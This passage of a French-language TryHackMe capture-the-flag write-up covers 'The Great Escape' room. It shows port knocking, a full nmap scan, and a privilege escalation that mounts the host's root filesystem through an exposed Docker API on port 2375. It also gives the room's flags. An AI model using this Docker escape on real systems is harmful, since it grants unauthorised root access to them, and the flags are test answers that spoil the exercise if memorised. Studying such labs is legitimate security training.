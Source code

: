 On regardant le depot avec l'option show de git on trouve le flag root qui : THM{0cb4b947043cb5c0486a454b75a10876}  

On trouve un autre message que l'on peut frapper plusieurs port qui sont : 42, 1337, 10420, 6969, et 63000.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ knock -v thegreatescape.thm 42 1337 10420 6969, 63000
hitting tcp 10.10.195.17:42
hitting tcp 10.10.195.17:1337
hitting tcp 10.10.195.17:10420
hitting tcp 10.10.195.17:6969
hitting tcp 10.10.195.17:63000
```

On tape sur les ports.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nmap -p- -v thegreatescape.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-06 15:06 CEST
Initiating Ping Scan at 15:06
Scanning thegreatescape.thm (10.10.195.17) [2 ports]
Completed Ping Scan at 15:06, 0.03s elapsed (1 total hosts)
Initiating Connect Scan at 15:06
Scanning thegreatescape.thm (10.10.195.17) [65535 ports]
Discovered open port 80/tcp on 10.10.195.17
Discovered open port 22/tcp on 10.10.195.17
Discovered open port 2375/tcp on 10.10.195.17
Completed Connect Scan at 15:06, 18.47s elapsed (65535 total ports)
Nmap scan report for thegreatescape.thm (10.10.195.17)
Host is up (0.033s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
2375/tcp open  docker

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 18.59 seconds
```

On trouve un nouveau port ouvert qui est le service docker sur le port 2375.   

**Task 4 The Great Escape**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ docker -H tcp://thegreatescape.thm:2375 run -it --rm -v /:/mnt/root alpine:3.9
/ # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
/ # cd /mnt/root/root
/mnt/root/root # ls
flag.txt
/mnt/root/root # cat flag.txt
Congrats, you found the real flag!

THM{c62517c0cad93ac93a92b1315a32d734}
```
On monte un image dans docker et on se connecte sur notre machine cible. 
On a les droits root.   
On peut lire le flag dans la machine cibe.  
